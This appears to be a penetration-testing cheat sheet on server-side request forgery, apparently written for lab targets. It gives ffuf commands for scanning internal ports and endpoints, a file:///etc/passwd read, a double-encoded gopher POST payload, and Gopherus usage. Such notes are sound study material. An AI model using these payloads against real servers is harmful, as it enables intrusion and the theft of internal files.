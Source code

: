 ```yaml
---
layout: default
title: SSRF
permalink: /Web/ssrf/
---
```


# Server-Side Request Forgery (SSRF)
This type of vulnerability occurs when an attacker can manipulate a web application into sending unauthorized requests from the server, because the web application fetches additional resources from a remote location based on user-supplied data, such as a URL.<br>
The following URL schemes are commonly used in the exploitation of SSRF vulnerabilities:
- http:// and https://: These URL schemes fetch content via HTTP/S requests. An attacker might use this in the exploitation of SSRF vulnerabilities to bypass WAFs, access restricted endpoints, or access endpoints in the internal network.
- file://: This URL scheme reads a file from the local file system. An attacker might use this in the exploitation of SSRF vulnerabilities to read local files on the web server (LFI).
- gopher://: This protocol can send arbitrary bytes to the specified address. An attacker might use this in the exploitation of SSRF vulnerabilities to send HTTP POST requests with arbitrary payloads or communicate with other services such as SMTP servers or databases.

## Confirming SSRF
- Supply a URL pointing to our system to the web aaplication, while we are listening with e.g. netcat.
- To determine, whether the HTTP response reflects the response, we can point the web application to itself, e.g. `http://127.0.0.1/index.php`.
If we see the HTML code in the response, the SSFR is not blind.

## Enumerating the System
We can do this using a fuzzer like ffuf.
```
seq 1 10000 > ports.txt
```
```
ffuf -w ./ports.txt -u http://$ip/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr "<response_identifier_for_closed_port>"
```
*Note: First check the error message in case of a closed port to apply the `-fr` regex filter correctly.*

## Accessing Restricted Endpoints
First determine the web server's response when we access a non-existing page. We should also find the correct extension of the files as we can see in the `$extension` variable.
```
ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://$ip/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.$extension&date=2024-01-01" -fr "<response_identifier_for_non_existing_page>"
```
## Local File Inclusion (LFI)
We can attempt to read local files from the file system using the `file://` URL scheme. E.g. by supplying the URL `file:///etc/passwd`

## The gopher Protocol
We can use SSRF to access restricted internal endpoints, but we are restricted to GET requests as there is no way to send a POST request with the http:// URL scheme. <br>
Instead, we can use the gopher URL scheme to send arbitrary bytes to a TCP socket. This protocol enables us to create a POST request by building the HTTP request ourselves by URL encoding the request, e.g.
```
POST /login.php HTTP/1.1
Host: <url>
Content-Length: 13
Content-Type: application/x-www-form-urlencoded

password=admin
```
Afterward, we need to prefix the data with the gopher URL scheme, the target host and port, and an underscore, resulting in the following gopher URL:
```
gopher://<url>:80/_POST%20/...[SNIP]
```
Our specified bytes are sent to the target when the web application processes this URL. Since we carefully chose the bytes to represent a valid POST request, the internal web server accepts our POST request and responds accordingly. However, since we are sending our URL within the HTTP POST parameter dateserver, which itself is URL-encoded, we need to URL-encode the entire URL again to ensure the correct format of the URL after the web server accepts it. Otherwise, we will get a Malformed URL error. After URL encoding the entire gopher URL one more time, we can finally send the following request:
```
POST /index.php HTTP/1.1
Host: <ip>
Content-Length: 265
Content-Type: application/x-www-form-urlencoded

dateserver=gopher%3a//<url>%3a80/_POST%2520/...[SNIP]
```
*Note: We can use the gopher protocol to interact with many internal services, not just HTTP servers.*

### Gopherus
We can utilize the tool [Gopherus](https://github.com/tarunkant/Gopherus) to generate gopher URLs for us. To run the tool, we need a valid Python2 installation. 
```
python2.7 gopherus.py
```
Example:
```
python2.7 gopherus.py --exploit smtp
```



